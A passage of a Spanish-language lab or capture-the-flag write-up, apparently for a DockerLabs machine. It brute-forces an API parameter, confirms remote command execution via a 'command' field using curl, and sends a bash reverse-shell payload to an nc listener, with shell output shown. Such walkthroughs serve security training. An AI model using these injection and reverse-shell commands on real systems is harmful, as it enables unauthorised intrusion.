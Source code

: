 ```python
    brute_force(args.url, args.cookie, args.wordlist)

if __name__ == "__main__":
    main()
```

Lo ejecutaremos de la siguiente forma:

```shell
python3 findParamAPICommand.py -u http://secure-api-register.dl/execute -c cookie.txt -w <WORDLIST>
```

Info:

```
Attempted 18120 commands...
Success! Parameter: command, Response: {"result":"www-data\n"}
```

Veremos que encontramos que el parametro es `command` por lo que haremos lo siguiente:

```shell
curl -X POST http://secure-api-register.dl/execute \
    -H "Content-Type: application/json" \
    -d '{"command": "whoami"}' \                     
    -b cookie.txt
```

Info:

```
{"result":"www-data\n"}
```

Veremos que el resultado es positivo y que nos ejecuta el comando de forma correcta, por lo que vamos a probar a generarnos una `reverse shell`.

```shell
curl -X POST http://secure-api-register.dl/execute \
    -H "Content-Type: application/json" \
    -d '{"command": "bash -c \"bash -i >& /dev/tcp/<IP>/<PORT> 0>&1\""}' \
    -b cookie.txt
```

Antes de ejecutarlo nos pondremos a la escucha de la siguiente forma:

```shell
nc -lvnp <PORT>
```

Y si ejecutamos el comando anterior y volvemos a donde tenemos la escucha, veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.5.186] from (UNKNOWN) [172.17.0.2] 38296
bash: cannot set terminal process group (24): Inappropriate ioctl for device
bash: no job control in this shell
www-data@dockerlabs:/$ whoami
whoami
www-data
```
